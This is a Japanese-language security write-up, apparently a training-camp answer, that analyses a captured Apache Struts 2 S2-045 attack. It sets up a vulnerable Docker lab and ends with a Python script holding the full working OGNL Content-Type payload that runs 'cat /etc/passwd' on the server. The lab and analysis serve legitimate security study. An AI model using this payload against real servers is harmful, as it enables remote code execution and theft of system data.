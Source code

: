 添付された pcap ファイルには 1 回の攻撃の試行以降の通信が記録されていないため、192.168.74.130 からの HTTP レスポンスや 192.168.74.1 からのそれ以降の攻撃の試行を知ることは出来ません。したがって、環境の違いを考えてそれぞれどのようなことが想定されるか考えていきます。

そもそも 192.168.74.130 で Apache Struts 2 アプリケーションが動いていない場合、192.168.74.1 の攻撃の試行は失敗します。また、Apache Struts 2 のバージョンが S2-045 の修正された 2.3.32、2.5.10.1 以降である場合にも失敗します。

S2-045 が存在するバージョンの Apache Struts 2 アプリケーションが動いている場合、実行しているユーザの権限で任意のコードの実行ができ、攻撃が成立します。

ただし、192.168.74.130 に WAF が導入されており、S2-045 のシグネチャが用意されていたり、あるいは不正な HTTP リクエストヘッダとして検出されてブロックされる場合や、JVN (https://jvn.jp/vu/JVNVU93610402/) に記載されているようなワークアラウンドが実施されている場合など、S2-045 が修正されていないバージョンであっても攻撃が成立しない可能性も考えられます。

S2-045 を使って任意のコードの実行が可能である場合について、OS ごとに考えます。Linux であれば、`cat /etc/passwd` が成功して /etc/passwd の内容を得ることが出来ます。これによって攻撃者は対象の OS が Linux であること、存在するユーザの情報を知ることが出来ます。

Linux であることがわかれば、攻撃者は uname や ifconfig、ip、ps、ls などのコマンド、/etc/hosts や /proc/cpuinfo などのファイルから情報収集をして、本格的な攻撃を行うでしょう。

Windows であれば、本来 cat コマンドも /etc/passwd も存在しないため `cat /etc/passwd` は失敗しますが、攻撃者は出力されるエラーメッセージから対象の OS が Windows であることを推測できます。その後攻撃者は `cat /etc/passwd` を dir、type、powershell のような Windows のコマンドに変えて攻撃の試行を続けていくことが考えられます。

まとめると、この通信は 192.168.74.130 で Apache Struts 2 が動いているか、S2-045 を使った攻撃が可能か、可能ならどのような環境で動いているかといった情報を知ることを意図したものと考えます。

問題の通信やここまでに書いた内容について、実際に攻撃を行って検証していきます。

以下の記事を参考に、Docker を使って S2-045 が残っているバージョン (Apache Struts 2.5.10) の環境を用意し、実際に上記のような攻撃が行えるか確認します。

- [Dockerを使って、Apache Struts2の脆弱性S2-037のやられ環境を手軽に作る - DARK MATTER](http://io.cyberdefense.jp/entry/2016/06/22/Docker%E3%82%92%E4%BD%BF%E3%81%A3%E3%81%A6%E3%80%81Apache_Struts2%E3%81%AE%E8%84%86%E5%BC%B1%E6%80%A7S2-037%E3%81%AE%E3%82%84%E3%82%89%E3%82%8C%E7%92%B0%E5%A2%83%E3%82%92%E6%89%8B%E8%BB%BD%E3%81%AB%E4%BD%9C)

```
...

docker is configured to use the default machine with IP 192.168.99.100
For help getting started, check out the docs at https://docs.docker.com

Start interactive shell

...
$ wget https://dist.apache.org/repos/dist/release/struts/2.5.10/struts-2.5.10-apps.zip
$ unzip struts-2.5.10-apps.zip
$ cat Dockerfile
FROM tomcat:7.0-jre8
ADD struts-2.5.10/apps/struts2-rest-showcase.war /usr/local/tomcat/webapps/
CMD ["catalina.sh", "run"]

$ docker build -t seccamp2017-q1:vuln .
$ docker run -d -it --rm -p 8080:8080 seccamp2017-q1:vuln
```

これで攻撃対象のサーバの準備が出来ました。問題の通信で使われたペイロードをそのまま使い、/etc/passwd の内容を得ることが出来るか確認します。

```
$ cat exploit.py
import requests

url = 'http://192.168.99.100:8080/struts2-rest-showcase/orders.xhtml'
payload = "Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```